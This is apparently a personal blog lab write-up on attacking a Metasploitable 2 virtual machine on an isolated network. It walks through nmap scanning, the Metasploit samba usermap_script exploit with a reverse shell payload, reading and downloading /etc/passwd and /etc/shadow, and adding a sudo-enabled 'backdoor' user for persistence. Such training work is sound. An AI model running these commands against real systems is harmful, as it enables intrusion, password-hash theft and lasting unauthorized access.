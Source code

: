 ```yaml
---
title: "Compromising metasploitable"
excerpt: "building my own attack and training environment. ain unauthorized access to a vulnerable Metasploitable 2 machine, extract sensitive data, and establish a persistent backdoor"
date: 2025-09-15
tags: [metasploitable, reconaissance, exploitation, post-exploitation, persistence]
layout: single
author_profile: true
---
```


#### Lab network setup
we do this to Isolate both VMs on a private network where they can communicate, without risking your real network

**1. Create a Host-Only Network in VirtualBox:**
VirtualBox Manager -> File -> Preferences -> Network -> Host-Only Networks -> Click the green "+" icon to create a new network (e.g., vboxnet0).
**2. Configure VM Network Settings:**
For both Kali and Metasploitable 2 VMs:
Settings -> Network -> Adapter 1 -> Attached to: Host-Only Adapter
Name: Select the newly created adapter (e.g., vboxnet0).
Optional: Add a second adapter set to NAT to the Kali VM to give it internet access.

#### 2. Reconnaissance
To discover the target, metasploitable , and its vulnerabilities
login into metasploit using username and password as msfadmin, type **ifconfig** and check inet t see the ip, do the same for kali.
In this case the host IP, kali is 192.168.56.102 and for metasploitable, Remote host 192.168.56.101
perform a port scna using nmap -Pn -sV -A -O 192.168.56.101. The scan reveals an old version of samba on port 445 which is vulnerable to  the Usermap_script exploit
![Topography Image](/assets/images/recon.png)

#### 3. Exploiting using metasploit
launch metasploit **msfconsole -q**
**search samba** to see possible exploits, in this case we will exploit using **search usermap_script** and so we will use **use exploit/multi/samba/usermap_script** exploit. Run that in msf
run **show options** to see what need to be set ie RHOST and LHOST
![Topography Image](/assets/images/msf.png)

Configure the required exploit parameters
**set RHOSTS 192.168.56.101   # (Remote Host) The target IP**
**set LHOST 192.168.56.102    # (Local Host) Your Kali IP**
Set a reliable payload, the default payload can be unstable. use a more robust one ie **set PAYLOAD cmd/unix/reverse_openssl**
![Topography Image](/assets/images/set.png)
Exploit
![Topography Image](/assets/images/exploit.png)
Handle the Session: The exploit will run and open a command shell session. It may seem to hang
Press Ctrl+Z to background the session
Type y to confirm
You are now back at the msf6 prompt. Your session is active in the background.

#### Post-explotation
We want to make sure to Explore the compromised system, loot data, and ensure you can get back in.
 To list all active sessions, we **sessions -l** after the ctrl+z above. Note the Id
 Then do a session interact **sessions -i 1** and we are in
![Topography Image](/assets/images/inside.png)
 You can try things like whoami, id
 # What is the operating system?
cat /etc/issue
uname -a
# Shows Linux kernel version
# What is in the current directory?
ls -la
# What users are on the system?
cat /etc/passwd
# What is the network configuration?
ifconfig

we now look for sensitive files, tese are key places to check
# 1. Look for files in the user home directories
ls -la /home
ls -la /home/*
# 2. Check the /root directory (root user's home)
ls -la /root
# 3. Look for configuration files with passwords
cat /etc/passwd
cat /etc/shadow  # This file contains password hashes. You can try to crack them later.
# 4. Check the web server root (if it has a website)
ls -la /var/www

Download Sensitive Files: Background the session (Ctrl+Z -> y) and use Metasploit's download command from the msf6 prompt.
download /etc/passwd /home/[YourKaliUser]/passwd.txt
download /etc/shadow /home/[YourKaliUser]/shadow.txt
![Topography Image](/assets/images/download.png)

#### Persistence
We are determined to Create a reliable, long-term access method that doesn't depend on the initial exploit.
To do tis,  
1. Interact with your session again (sessions -i 1).
2. Create a New User:
useradd -m -s /bin/bash backdoor  # Creates user 'backdoor1' with a home directory
passwd backdoor                   # Set the password for the new user (e.g., 'backdoor')
usermod -aG sudo backdoor         # Adds the user to the sudo group (root privileges)
![Topography Image](/assets/images/backdoor.png)

And the backdoor will be successfully created. Now in a new kali terminal, try to access it by **ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa backdoor@192.168.56.101** and put the pasword
![Topography Image](/assets/images/ssh.png)
 





